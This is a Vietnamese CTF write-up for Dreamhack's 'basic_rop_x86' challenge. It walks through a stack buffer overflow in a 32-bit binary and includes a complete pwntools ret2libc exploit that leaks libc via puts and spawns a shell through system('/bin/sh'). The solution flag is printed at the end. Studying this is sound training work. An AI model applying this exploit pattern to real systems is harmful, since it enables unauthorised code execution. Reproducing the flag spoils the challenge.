




**1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}

```

Chương trình khai báo biến `buf` với 0x40 byte nhưng cho nhập 0x400 byte -> Có lỗi bof

**2. Ý tưởng**

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Ta thấy stack đang no canary found

Thử dùng `ROPgadget` kiếm một số thanh ghi nhưng không có. Check bảng `GOT` ta có:

```
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 8
[0x804a00c] read@GLIBC_2.0 -> 0x80483f6 (read@plt+6) ◂— push 0 /* 'h' */
[0x804a010] signal@GLIBC_2.0 -> 0x8048406 (signal@plt+6) ◂— push 8
[0x804a014] alarm@GLIBC_2.0 -> 0x8048416 (alarm@plt+6) ◂— push 0x10
[0x804a018] puts@GLIBC_2.0 -> 0x8048426 (puts@plt+6) ◂— push 0x18
[0x804a01c] exit@GLIBC_2.0 -> 0x8048436 (exit@plt+6) ◂— push 0x20 /* 'h ' */
[0x804a020] __libc_start_main@GLIBC_2.0 -> 0x8048446 (__libc_start_main@plt+6) ◂— push 0x28 /* 'h(' */
[0x804a024] write@GLIBC_2.0 -> 0x8048456 (write@plt+6) ◂— push 0x30 /* 'h0' */
[0x804a028] setvbuf@GLIBC_2.0 -> 0x8048466 (setvbuf@plt+6) ◂— push 0x38 /* 'h8' */
```

 Nhưng ở đây có hàm `read`, `write`, `puts` nên có thể tận dụng để leak địa chỉ libc để từ đó sử dụng `ROPgadget` để hướng đến hàm thực thi.

**3. Khai thác**

```
   0x080485f6 <+29>:    push   0x400
   0x080485fb <+34>:    lea    eax,[ebp-0x44]
   0x080485fe <+37>:    push   eax
   0x080485ff <+38>:    push   0x0
   0x08048601 <+40>:    call   0x80483f0 <read@plt>
```

Ta thấy biến cần nhập cách `ebp` 0x44 byte nên nhập 0x44 + 0x4 byte rác sẽ đến được `ret`. Đặt breakpoint ở lệnh `ret` thì thấy:



Sau lệnh `ret` thì chương trình trả về địa chỉ trong dải địa chỉ libc nên lúc này chèn hàm `puts` thì sẽ in ra được địa chỉ đó. Kiểm tra thử:



Chương trình trả về 0x40 byte chữ a và 1 địa chỉ. Tiếp theo thêm hàm `main` vào để quay lại main rồi chèn `read@got` để chờ nhập rồi lấy địa chỉ leak ra được để tính toán địa chỉ libc base:

```
payload = b'a'*(0x44 + 0x4)
payload += p32(exe.plt['puts'])
payload += p32(exe.sym['main'])
payload += p32(exe.got['read'])
r.send(payload)
r.recvuntil(b'a'*0x40)
leak = u32(r.recv(4))
log.info("leak: " + hex(leak))
```



Ta tính toán được địa chỉ leak ra cách địa chỉ libc base 0x10a0c0 byte. Và chương trình đã quay lại `read` trong main nên chèn shell ở libc là xong

```
pop_ebx = 0x080483d9
payload = b'a'*(0x44 + 0x4)
payload += p32(libc.sym['system'])
payload += p32(pop_ebx)
payload += p32(next(libc.search(b'/bin/sh')))
r.sendline(payload)
```

Nhưng lại ko trả về hàm `system` chạy trên server mới thấy libc khác nhau. Phải trừ địa chỉ `read` mới về libc base. Ta có script như sau:

```
from pwn import *

exe = ELF('basic_rop_x86', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 23533)
libc = ELF('libc.so.6', checksec=False)


###1. Leak libc
payload = b'a'*(0x44 + 0x4)
payload += p32(exe.plt['puts'])
payload += p32(exe.sym['main'])
payload += p32(exe.got['read'])
r.send(payload)
r.recvuntil(b'a'*0x40)
leak = u32(r.recv(4))
log.info("leak: " + hex(leak))
libc.address = leak - libc.sym['read']
log.info("libc base:" + hex(libc.address))

#input()
##2. Get shell
pop_ebx = 0x080483d9
payload = b'a'*(0x44 + 0x4)
payload += p32(libc.sym['system'])
payload += p32(pop_ebx)
payload += p32(next(libc.search(b'/bin/sh')))
r.sendline(payload)

r.interactive()
```

**4. Lấy flag**



`Flag: DH{ff3976e1fcdb03267e8d1451e56b90a5}`